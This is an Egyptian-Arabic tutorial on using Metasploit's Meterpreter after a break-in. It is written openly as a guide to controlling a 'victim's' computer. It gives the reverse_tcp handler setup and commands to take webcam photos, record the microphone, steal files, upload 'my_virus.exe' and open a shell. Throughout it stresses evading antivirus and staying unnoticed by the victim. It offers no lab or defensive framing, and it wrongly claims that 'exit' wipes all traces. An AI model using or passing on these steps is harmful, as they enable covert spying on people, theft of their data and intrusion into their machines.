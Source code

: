 ### **📌 Meterpreter: شيل (Shell) تفاعلي لما بعد الاختراق - شرح مبسط وعميق**

#### **🚀 ما هو Meterpreter؟**

**Meterpreter** هو شيل (Shell) تفاعلي بيشتغل بعد ما يتم الاختراق، وبيوفر أدوات قوية للتحكم الكامل في الجهاز المخترَق بدون ما يلاحظ الضحية.

✳️ **باختصار:**

- بيشتغل **في الذاكرة (RAM)** بدون ما يسيب أثر على القرص الصلب.
- بيتيح **التحكم الكامل في الجهاز المخترَق** بدون الحاجة لرفع برامج إضافية.
- بيساعدك على **تنفيذ أوامر، رفع وتحميل ملفات، تشغيل كاميرا، تسجيل صوت، وغيرهم**.

---

### **💡 الخلاصة بالمصري:**

**Meterpreter ده الريموت كنترول اللي هتتحكم بيه في جهاز الضحية** بعد ما يدخل الفيروس عنده.

- تقدر **تفتح كاميرته، تسمع صوته، تاخد بياناته، أو حتى تمسح آثارك من الجهاز**.

---

## **🛠️ مميزات Meterpreter**

✅ **مش بيشتغل كبرنامج منفصل**، لكنه بيبقى داخل **ذاكرة الجهاز**.  
✅ **بيوفر أدوات قوية** زي تسجيل الصوت، تشغيل الكاميرا، وسرقة البيانات.  
✅ بيتيح **تحميل ورفع الملفات** من وإلى جهاز الضحية.  
✅ **بيقدر يخدع برامج الحماية** لأنه مش بينشئ ملفات على الهارد.

---

### **🎯 خطوات عملية لاستخدام Meterpreter**

🚀 **الخطوة 1:** تشغيل Meterpreter بعد نجاح الاختراق  
بعد ما الضحية يشغل الفيروس، بنستخدم **MSFConsole** لاستقبال الجلسة:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit
```

بمجرد الاتصال، هتظهر لك جلسة Meterpreter:

```bash
meterpreter >
```

🎯 **كده أنت داخل على جهاز الضحية وجاهز للتحكم فيه بالكامل!**

---

🚀 **الخطوة 2:** تنفيذ أوامر داخل جهاز الضحية  
📌 **معرفة معلومات النظام**

```bash
sysinfo
```

🔹 بيعرض إصدار الويندوز، المعالج، الرامات...

📌 **معرفة المستخدم الحالي**

```bash
getuid
```

🔹 بيعرض اسم المستخدم اللي شغال بيه الضحية.

📌 **فتح الكاميرا وتشغيلها**

```bash
webcam_list
webcam_snap
```

🔹 أول أمر بيعرض الكاميرات المتاحة، والتاني بياخد صورة باستخدام الكاميرا.

📌 **تسجيل الصوت من ميكروفون الضحية**

```bash
record_mic -d 10
```

🔹 بيبدأ تسجيل الصوت لمدة 10 ثواني.

📌 **تحميل ملفات من جهاز الضحية**

```bash
download C:\\Users\\victim\\Desktop\\secret.txt
```

🔹 بينسخ ملف من جهاز الضحية لجهازك.

📌 **رفع ملفات لجهاز الضحية**

```bash
upload my_virus.exe C:\\Users\\victim\\Desktop\\
```

🔹 بترفع ملف من جهازك لجهاز الضحية.

📌 **فتح سطر الأوامر (CMD) على جهاز الضحية**

```bash
shell
```

🔹 بيشغل **Command Prompt** للضحية، وتقدر تنفذ أوامر النظام بالكامل.

📌 **إخفاء الاتصال والخروج بدون ما الضحية يلاحظ**

```bash
background
```

🔹 بيخلي الجلسة في الخلفية عشان تقدر ترجع لها بعدين.

📌 **حذف آثار الاختراق والخروج نهائيًا**

```bash
exit
```

🔹 بيقفل الجلسة وينظف أي آثار للاختراق.

---

### **💡 الخلاصة بالمصري:**

1️⃣ بعد ما الفيروس يدخل جهاز الضحية، **Meterpreter بيديك تحكم كامل فيه**.  
2️⃣ تقدر **تفتح الكاميرا، تسجل الصوت، تاخد الملفات، أو حتى ترفع ملفات خبيثة**.  
3️⃣ **مش بيظهر في برامج الحماية** لأنه بيشتغل في الرام مش على الهارد.  
4️⃣ تقدر **تسيب الجلسة مفتوحة في الخلفية وتدخل تاني وقت ما تحب**.